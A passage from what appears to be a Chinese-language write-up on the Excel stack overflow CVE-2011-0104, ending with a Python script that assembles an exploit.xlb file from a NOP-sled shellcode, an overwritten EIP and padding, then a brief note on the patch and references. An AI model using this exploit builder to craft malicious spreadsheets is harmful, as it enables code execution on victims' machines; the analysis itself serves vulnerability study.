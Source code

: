 ```python
                
                
        if len(shellcode) > 800:
            print "[*] Error : Shellcode length is long"
            return
        if len(shellcode) <= 800:
            dif = 800 - len(shellcode)
            #* 填充 Nop 雪橇
            while dif > 0 :
                shellcode += '\x90'
                dif = dif - 1
                
        fdW= open('exploit.xlb', 'wb+')
        fdW.write(str1)
        fdW.write(record)    
        fdW.write("\x41")     # pad
        fdW.write(eip)                
        fdW.write("\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00")      # bypassing a conditional
        fdW.write(shellcode)
        fdW.write(str2)
        
        fdW.close()
        fdR.close()
        print '[-] Excel file generated'
    except IOError:
        print '[*] Error : An IO error has occurred'
        print '[-] Exiting ...'
        sys.exit(-1)
                
if __name__ == '__main__':
    main()
```

## 漏洞修复

对打补丁前后的程序进行 BinDiff 后发现漏洞函数的主调函数在调用前增加了一些判断条件以避免栈溢出的发生。有一说一闹麻了。

## Reference

[NVD - CVE-2011-0104](https://nvd.nist.gov/vuln/detail/CVE-2011-0104)
[CVE - CVE-2011-0104](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-0104)
[Github - CVE-2011-0104](https://github.com/advisories/GHSA-xfjm-p2hj-x3rp)
[漏洞战争](https://book.douban.com/subject/26830238/)
[Office FIle Formats](https://learn.microsoft.com/en-us/openspecs/office_file_formats/MS-OFFFFLP/8aea05e3-8c1e-4a9a-9614-31f71e679456)
